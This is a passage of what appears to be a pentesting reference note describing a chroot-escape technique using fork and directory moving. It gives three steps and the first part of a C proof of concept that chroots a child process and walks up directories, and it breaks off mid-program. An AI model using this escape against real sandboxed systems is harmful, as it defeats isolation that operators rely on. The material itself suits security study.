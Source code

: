 
#### 6 - Root(?) + Fork

- Create a Fork (child proc) and chroot into a different folder deeper in the FS and CD on it
- From the parent process, move the folder where the child process is in a folder previous to the chroot of the children
- This children process will find himself outside of the chroot


```c!
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <string.h>
#include <errno.h>

#define CHROOT_DIR "chroot_env"
#define NESTED_DIR "nesteddir"
#define NEW_DIR "moved_out"

// Function to move the child process to the real root
int movetotheroot() {
    for (int i = 0; i < 10; i++) { 
        if (chdir("..") < 0) {
            perror("[Child] movetotheroot: chdir");
            return -1;
        }
    }
    return 0;
}

int main() {
    pid_t pid;
    char child_path[256];

    // Create directory structure
    printf("[+] Creating directories...\n");
    mkdir(CHROOT_DIR, 0755);
    snprintf(child_path, sizeof(child_path), "/%s/%s", CHROOT_DIR, NESTED_DIR);
    mkdir(child_path, 0755);

    // Fork process
    printf("[+] Forking process...\n");
    pid = fork();
    if (pid < 0) {
        perror("fork");
        exit(EXIT_FAILURE);
    }

    if (pid == 0) {
        // Child process
        printf("[Child] Chrooting into %s...\n", CHROOT_DIR);
        if (chroot(CHROOT_DIR) < 0) {
            perror("[Child] chroot");
            exit(EXIT_FAILURE);
        }

        if (chdir("/nesteddir") < 0) {
            perror("[Child] chdir");
            exit(EXIT_FAILURE);
        }

        printf("[Child] Inside chroot, sleeping...\n");
```